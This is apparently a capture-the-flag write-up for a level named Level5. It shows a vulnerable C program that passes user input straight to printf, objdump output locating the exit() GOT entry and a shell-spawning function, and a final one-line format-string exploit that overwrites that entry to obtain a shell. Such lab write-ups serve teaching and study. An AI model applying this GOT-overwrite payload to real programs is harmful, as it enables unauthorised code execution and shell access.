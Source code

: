# Level5

## Code
```
#include <stdio.h>
#include <stdlib.h>

void o(void)
{
  system("/bin/sh");
  _exit(1);
}

void n(void)
{
  char buffer [512];
  fgets(buffer,512,stdin);
  printf(buffer);
  exit(1);
}

void main(void)
{
  n();
  return;
}
```
## Explanation
- Again, a call to fgets on a 512 bytes buffer, and a printf.

- This time, the solution is not behind a cmp instruction but in a o() function that is never called.

- So just like in one of the first exercise, we could replace the return value of the n() function with
    the address of the o() function... But the problem is that the n() function never returns since
    it calls exit() after the printf() !

- So here, we decided to modify the address where the the exit() function jumps to redirect our program
    towards the o() function when exit() is called !

- So what we need is the address of o() and the memory address of the GOT entry for exit(). These are
    very easy to get thanks to objdump -d :
```
[...]

080483d0 <exit@plt>:
    80483d0:	ff 25 38 98 04 08    	jmp    *0x8049838
    80483d6:	68 28 00 00 00       	push   $0x28
    80483db:	e9 90 ff ff ff       	jmp    8048370 <_init+0x3c>


[...]

080484a4 <o>:
    80484a4:	55                   	push   %ebp
    80484a5:	89 e5                	mov    %esp,%ebp
    80484a7:	83 ec 18             	sub    $0x18,%esp
    80484aa:	c7 04 24 f0 85 04 08 	movl   $0x80485f0,(%esp)
    80484b1:	e8 fa fe ff ff       	call   80483b0 <system@plt>
    80484b6:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
    80484bd:	e8 ce fe ff ff       	call   8048390 <_exit@plt>

[...]
```
- Here, we can see that the address of o() is 0x080484a4 and that the address where exit() jumps when
    called is found by dereferencing 0x8049838. So all we need to do is write the address of o() at this
    address instead, to make the program jump to o() when exit() is called, and prevent it from
    dynamically linking the original exit() c function.

- Once we have this information, we can use the exact same technique as level 4 to write the needed value
    (address of o()) at the needed address (GOT entry for exit()): 

# Exploit
```
$   (python -c 'print "\x38\x98\x04\x08" + "%134513824x%4$n"' ; cat) | ./level5
```